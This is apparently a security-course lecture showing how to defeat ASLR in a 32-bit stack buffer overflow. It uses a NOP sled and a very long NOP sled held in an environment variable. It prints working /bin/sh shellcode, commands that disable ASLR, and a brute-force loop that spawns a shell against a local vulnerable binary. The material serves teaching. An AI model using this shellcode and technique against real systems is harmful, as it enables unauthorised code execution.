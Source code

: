 # Shellcode injection with ASLR

In the previous [Lecture](../Lecture2/README.md) I talked about, injection of
shell code when the ASLR was desabled. ASLR allows adds randomization of
different segment address. So its not very trivial to identify the buffer address. The address of buffer keep on changing with every run of the program. So when the return address points to the buffer address (that keeps on changing), putting the executable shell code in memory is not so easy.  

To disable ALSR,  
`echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space`  
To enable the same,  
`echo "2" | sudo dd of=/proc/sys/kernel/randomize_va_space`  

#### Scenario 1: With `nop - \x90` sled.
Suppose I appended few `nop` (no operation instruction) before the shellcode.

#### NOP
> In computer science, a NOP, no-op, or NOOP (pronounced "no op"; short for no operation) is an assembly language instruction, programming language statement, or computer protocol command that does nothing.  

Lets say I added 20 `nop` before the shellcode.
`python -c 'import struct;shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; bufferlen=108; print "\x90"*20+shellcode+"\x90"*(bufferlen-len(shellcode)-20)+"BBBB"+struct.pack("<I", starting address of the buffer)'`
And make return address point to any of the **21** locations, from the staerting address of the buffer to the starting address of the shellcode ( address of buffer + 20), then I will spawn the shell indeed. But **what is the probability?** That return address(which is nothing but buffer address) will end up in any of those locations. The higher the probability, higher are the chances for exploitation.  

The starting address of buffer would be `0xff_ _ _ _ _ _ _` in which the first `0xff` is fixed, because the buffer will lie in the upper portion of memory.  
To test this, create a simple C program:
```C
int main()
{
    int a;
    printf("%p\n", &a);
    return 0;
}
```  
Compile and run this program for say 10 runs.
```bash
$ for i in {1..10};do ./a.out;done
0xffe918bc
0xffdc367c
0xffeaf37c
0xffc31ddc
0xffc6a56c
0xffbcf9bc
0xffbcf02c
0xffbf1dcc
0xfffe386c
0xff9547cc
```
The observation is same what we have assumed. You can test the programs for more trials in case you are not convinced.
It seems that every time the variable is loaded at different addresses in the stack. The address can be represented as 0xffXXXXXc(where X is any hexadecimal digit). With some more testing, it can be seen that even the last half-byte(‘c’ over here) depends on the relative location of the variable inside the program. So in general, the address of a variable on the stack is 0xffXXXXXX. This amounts to 16^6 = 16777216 possible cases. It can be easily seen that the earlier method, mentioned above to exploit the stack, will now work with only 21/16777216 probability(21 is the length of NOP sled, if any of those NOP bytes happens to be where the modified return address is, the shellcode will be executed).  
That means on an average, 1 in ~ 40K runs, the shellcode will be executed. This is way less. In any way we got he hint that somehow we need to increase the length of the `nop` sled on the buffer, but the buffer length is limited. Increasing the size of `nop` will increase the chances of shellcode to run. But How?  

Why not take the help of **environment varibale**?

#### Scenario 2: Putting long shellcode in env varibale
In my vagrant system, I can make the environment variable way long the size of the buffer. My system allows the environment variable to be of length 100K. The reason we are picking environment variable is that, they are itself loaded just above the stack.
Lets create environment variable, say `SHELLCODE`.  
`export SHELLCODE=$(python -c 'print "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
`
And instead of putting the return address to starting address of the buffer, I will put the return address to any of the randomly picked higher memory address. Lets say any address in between highest address `0xffffffff` and `0xff9547cc`. I am picking `0xff882222`.

`$ for i in {1..100}; do ./vuln $(python -c 'import struct;print "A"*112 + struct.pack("<I", 0xff882222)'); done`

```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
Segmentation fault
Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA����
$whoami
vagrant
```

After few attempts we got the shell. :cool: isn't it !! 


